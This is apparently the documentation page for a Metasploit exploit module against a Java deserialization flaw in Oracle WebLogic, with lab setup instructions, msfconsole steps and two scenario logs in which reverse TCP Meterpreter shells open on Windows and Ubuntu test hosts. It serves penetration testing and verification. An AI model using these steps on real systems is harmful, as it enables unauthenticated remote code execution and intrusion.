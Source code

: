 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved by
  sending a serialized `BadAttributeValueExpException`
  object over the T3 protocol to vulnerable versions of
  WebLogic. Leveraging an `ExtractorComparator` enables
  the ability to trigger `method.invoke()`, which will
  execute arbitrary code.

  This module has been tested on WebLogic versions
  `v12.2.1.4.0`, `v12.2.1.3.0`, and `v12.1.3.0.0`.

### Installation

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).

  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).

  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/misc/weblogic_deserialize_badattr_extcomp```
  4. Do: ```set RHOSTS <target_ip>```
  5. Do: ```set LHOSTS <attacker_ip>```
  6. Do: ```set TARGET <0_win_or_1_nix>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios
### WebLogic `v12.2.1.4.0` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattr_extcomp
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.181
  rhosts => 172.16.215.181
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.181:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.181:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.181:7001 - The target appears to be vulnerable.
  [*] 172.16.215.181:7001 - Sending handshake...
  [*] 172.16.215.181:7001 - Formatting payload...
  [*] 172.16.215.181:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.181
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.181:49724) at 2020-06-02 14:03:07 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.2.1.4.0` on Ubuntu 18.04

  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.180
  rhosts => 172.16.215.180
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.180:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.180:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.180:7001 - The target appears to be vulnerable.
  [*] 172.16.215.180:7001 - Sending handshake...
  [*] 172.16.215.180:7001 - Formatting payload...
  [*] 172.16.215.180:7001 - Sending object...
  [*] Sending stage (980808 bytes) to 172.16.215.180
  [*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.180:50522) at 2020-06-02 14:03:43 -0500
  [*] 172.16.215.180:7001 - Command Stager progress - 101.56% done (715/704 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.180
  OS           : Ubuntu 18.04 (Linux 5.3.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
